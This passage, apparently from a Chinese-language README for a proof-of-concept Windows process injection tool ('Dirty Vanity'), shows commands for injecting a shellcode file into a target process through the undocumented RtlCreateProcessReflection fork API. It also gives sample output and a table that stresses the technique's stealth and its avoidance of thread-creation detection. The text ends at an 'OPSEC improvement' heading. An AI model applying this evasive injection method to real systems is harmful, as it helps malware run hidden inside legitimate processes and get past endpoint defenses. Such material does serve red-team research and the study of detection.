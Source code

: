 ### 运行注入

```cmd
# 语法
process_forking.exe <target_pid> <shellcode.bin>

# 示例：注入到 notepad.exe
start notepad
process_forking.exe 1234 calc_shellcode.bin
```

**输出示例**：
```
[+] Process Forking Injection POC (Dirty Vanity)
[+] Windows Fork API Abuse - RtlCreateProcessReflection

[+] Loaded shellcode: 65 bytes

[+] Process Forking Injection (Dirty Vanity)
[+] Target PID: 1234
[+] Shellcode size: 65 bytes
[+] Opened target process
[+] Allocated remote memory at 0000000002D40000
[+] Wrote shellcode to remote process
[+] Resolved RtlCreateProcessReflection at 00007FFE8C6F1234

[+] Successfully forked process!
[+] Forked process PID: 5678
[+] Forked process handle: 0000000000000ABC
[+] Forked thread handle: 0000000000000DEF

[+] Process forking injection successful!
```

## 技术特点

| 特性 | 描述 |
|-----|------|
| ✅ 极高隐蔽性 | 使用 Windows 未公开的 Fork API |
| ✅ 进程继承 | 镜像进程继承目标进程的内存、句柄、DLL |
| ✅ 自定义入口点 | StartRoutine 参数直接指向 shellcode |
| ✅ 无需创建线程 | 不使用 CreateRemoteThread |
| ⚠️ 系统限制 | 需要 Windows 10 1809+ |
| ⚠️ 权限要求 | 需要 PROCESS_VM_OPERATION、PROCESS_VM_WRITE、PROCESS_CREATE_THREAD、PROCESS_DUP_HANDLE |

## OPSEC 改进建议

⚠️ **这是 POC，不可直接用于生产环境！**

